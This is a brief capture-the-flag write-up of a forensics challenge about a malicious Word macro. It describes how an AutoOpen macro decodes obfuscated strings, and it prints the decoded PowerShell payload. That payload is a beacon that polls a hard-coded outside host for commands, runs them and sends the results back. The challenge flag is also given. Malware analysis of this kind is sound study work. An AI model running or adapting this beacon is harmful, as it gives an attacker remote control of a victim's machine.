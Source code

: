 # forensics_halloween_invitation (3)

We have a nice `invitation.docm`

There is some Macro in there !
- `invitation.docm` > `Project` > `Document Objects` > `ThisDocument` > `AutoOpen`
- `invitation.docm` > `Project` > `Modules` > `Module1` > `uxdufnkjlialsyp`

The functions/variables names were randomized, so we renamed them to understand what it does ! \
We understand the `uxdufnkjlialsyp` function is a decoder for some strings. \
We got these two files: [AutoOpen](./AutoOpen.vba) / [decoder](./decoder.vba)

Basically, the original script writes some malicious code inside a hidden window.

It takes some string in input, decode them as hexadecimal chars. Which themselves are decimal chars. The overall string gives a base64 encoded string.

We write the [decoder](./decoder.py) for the whole challenge, which gives:
```bash
python decoder.py | base64 -d
```

```
$s='77.74.198.52:8080';$i='d43bcc6d-043f2409-7ea23a2c';$p='http://';$v=Invoke-RestMethod -UseBasicParsing -Uri $p$s/d43bcc6d -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-RestMethod -UseBasicParsing -Uri $p$s/043f2409 -Headers @{"Authorization"=$i});if ($c -ne 'None') {$r=iex $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-RestMethod -Uri $p$s/7ea23a2c -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}HTB{5up3r_345y_m4cr05}
```

With the flag inside:
```
HTB{5up3r_345y_m4cr05}
```
